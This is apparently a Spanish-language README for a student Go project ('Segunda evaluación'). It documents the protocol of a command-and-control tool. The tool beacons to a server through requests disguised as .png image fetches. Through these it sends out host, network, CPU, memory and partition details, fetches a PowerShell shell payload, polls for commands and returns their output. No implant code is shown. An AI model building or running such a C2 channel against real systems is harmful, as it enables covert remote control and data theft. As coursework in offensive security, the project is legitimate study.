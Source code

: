 # Segunda evaluación

### Diseño
```txt
src/
|- app
  \- main.go
|- lib
  \- utils.go
|- webserver
  \- server.go
```

### Variables de entorno
- DEBUG: el valor 1 de ésta variable indica al programa que se ejecute imprimiendo información util para la depuración


### LLamadas ofuscadas
- GET http://{{server}}/images/i/ho.png 	- informacion del host
- GET http://{{server}}/images/i/ni.png	 	- net interfaces
- GET http://{{server}}/images/i/hi.png 	- hosts ips
- GET http://{{server}}/images/i/cp.png 	- informacion de las cpus
- GET http://{{server}}/images/i/me.png 	- informacion de la memoria
- GET http://{{server}}/images/i/pa.png	 	- informacion de las particiones
- GET http://{{server}}/images/i/pu.png 	- informacion del uso de las particiones

### LLamadas c2cmd
- GET http://{{server}}/images/c/cp.png	 	- check payload: descarga el comando para crear una nueva shell, los valores/comando dependerán del sistema operativo del cliente - "powershell:"

- GET http://{{server}}/images/c/cm.png		- comandos: solicita un comando, si el stack esta vacío retorna 304
- GET http://{{server}}/images/c/cr.png		- respuesta comando: retorna la salida de un comando ejecutado, 
- 
